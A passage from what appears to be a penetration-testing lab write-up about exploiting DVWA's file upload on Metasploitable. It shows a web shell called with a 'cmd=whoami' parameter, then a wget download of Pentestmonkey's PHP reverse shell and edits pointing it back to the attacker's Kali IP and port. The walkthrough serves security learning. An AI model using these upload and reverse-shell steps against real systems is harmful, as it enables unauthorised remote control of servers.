     ![Renaming file extension in Metasploitable](./screenshots/file-upload-attack/metasploitable-renaming.jpg)

    - Then visiting:
        ```bash
        http://<metasploitable_ip>/dvwa/hackable/uploads/shell2.php?cmd=whoami
        ```
    - Still produces a syntax error. 
    - PHP needs pure PHP text at the very top to run properly. Even a few stray image bytes before `<?php` will trigger the exact error we're seeing.

5. Testing a clean PHP file execution before appending image content
    ```bash
    php -S 0.0.0.0:8080
    ```
    - Then in Kali browser, go to:
        ```bash
        http://localhost:8080/shell_clean2.php?cmd=whoami
        ```
    - Saw `kali`, which confirms the file is valid.
    - But appending image data resulted in the same syntax error when trying to perform the PHP code again. DVWA on Medium security can be deceptively tricky when it comes to this file upload scenario. Instead of appending PHP to an image file and wrestling broken file formats, I will use a pre-made (clean, tested) reverse shell file.


#### 3.4.2.2 Prebuilt PHP Reverse Shell

Use the standard `php-reverse-shell.php` by Pentestmonkey, which:
- Starts clean
- Doesn't require any image bytes
- Just needs to be renamed and uploaded correctly

**Step 1**: Download the PHP reverse shell

- In Kali:
    ```bash
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php
    ```
- Edit the file:
    ```bash
    nano shell.php
    ```
- Replace:
    ```php
    $ip = '127.0.0.1';
    $port = 1234;
    ```
- With your Kali IP address and a port you'll listen on, like:
    ```php
    $ip = '192.168.0.18';  // <-- your Kali IP
    $port = 4444;
    ```
